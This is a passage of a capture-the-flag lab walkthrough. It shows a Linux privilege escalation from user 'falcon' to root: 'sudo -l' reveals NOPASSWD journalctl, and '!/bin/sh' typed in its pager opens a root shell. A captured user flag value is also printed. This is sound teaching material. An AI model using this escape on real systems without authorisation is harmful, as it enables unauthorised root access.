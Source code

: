 ```
falcon@walk:~$ ls
user.txt
falcon@walk:~$ cat user.txt 
B8LEGIF049JT4RTVWUG4
```

`B8LEGIF049JT4RTVWUG4`

## Task 3 Escalating your privileges to root

In this, we are going to focus on getting root-level access on the machine. This step is also known as Privilege escalation; we are going to escalate our privilege from a normal user to a root user (with the highest level of system privileges).

First, we'll have to find a vector that would be exploited to give us root access. A vector can be anything like a binary with some special permission or a cronjob that is not configured properly etc.

I've written a blog post about Linux privilege escalation, you can read it [here](https://mzfr.github.io/linux-priv-esc) to know more about it.

1. What can falcon run as **root**?

```
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
```

`/bin/journalctl`

2. Search gtfobins via the [website](http://gtfobins.github.io/) or by using [gtfo tool](http://github.com/mzfr/gtfo), to see if you find any way to use that binary for privilege escalation.

https://gtfobins.github.io/gtfobins/journalctl/

```
falcon@walk:~$ sudo journalctl
-- Logs begin at Tue 2020-01-28 19:00:21 IST, end at Sat 2020-11-07 19:29:51 IST. --
Jan 28 19:00:21 walk kernel: Linux version 4.15.0-20-generic (buildd@lgw01-amd64-039) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 (Ubuntu 4.15.0-20.21-gen
Jan 28 19:00:21 walk kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-20-generic root=UUID=979754d8-4db7-4b66-a804-28a498c1cc0f ro
Jan 28 19:00:21 walk kernel: KERNEL supported cpus:
Jan 28 19:00:21 walk kernel:   Intel GenuineIntel
Jan 28 19:00:21 walk kernel:   AMD AuthenticAMD
Jan 28 19:00:21 walk kernel:   Centaur CentaurHauls
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x001: 'x87 floating point registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x002: 'SSE registers'
Jan 28 19:00:21 walk kernel: x86/fpu: Supporting XSAVE feature 0x004: 'AVX registers'
Jan 28 19:00:21 walk kernel: x86/fpu: xstate_offset[2]:  576, xstate_sizes[2]:  256
Jan 28 19:00:21 walk kernel: x86/fpu: Enabled xstate features 0x7, context size is 832 bytes, using 'standard' format.
Jan 28 19:00:21 walk kernel: e820: BIOS-provided physical RAM map:
Jan 28 19:00:21 walk kernel: BIOS-e820: [mem 0x0000000000000000-0x000000000009fbff] usable
!/bin/sh
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
```